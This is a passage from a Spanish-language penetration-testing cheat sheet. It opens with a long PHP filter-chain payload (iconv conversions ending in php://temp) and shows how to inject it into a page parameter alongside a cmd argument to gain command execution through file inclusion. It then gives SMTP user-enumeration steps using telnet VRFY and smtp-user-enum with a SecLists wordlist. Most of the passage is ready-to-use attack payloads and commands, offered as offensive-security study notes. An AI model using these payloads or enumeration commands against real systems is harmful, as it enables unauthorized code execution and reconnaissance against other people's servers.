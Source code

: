 ```
t.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Copiamos eso y lo metemos despues del igual de la siguiente manera...

```
http://example.com/index.php?cmd=<COMMAND>&page=<CONTENT_GENERATE>
```

### smtp (25)

Si tenemos este puerto abierto y tenemos sospechas de que puede existir un usuario en la maquina podremos comprobarlo de la siguiente manera...

```shell
telnet <IP> 25
> HELO <TARGET_OR_IP>
> (INFO)
> VRFY <USERNAME>
```

Si pones eso y te devuelve lo siguiente `252 2.0.0 <USERNAME>` significa que existe, pero si te devuelve algo parecido como `Denied o Refused` significa que la `IP` esta mal o que no existe...

Tambien podemos utilizar una herramienta que te automatiza todo esto para descubrir usuarios de la siguiente manera...

```shell
smtp-user-enum -M VRFY -U <WORDLIST> -t <IP>
```

Con esto lo que hara es verificar del diccionario que le hemos pasado todas las palabras y nos mostrara las que coincidan sabiendo que existe ese usuario, generalmente se utiliza el siguiente diccionario llamado...

```
SecLists/Usernames/Names/names.txt
```
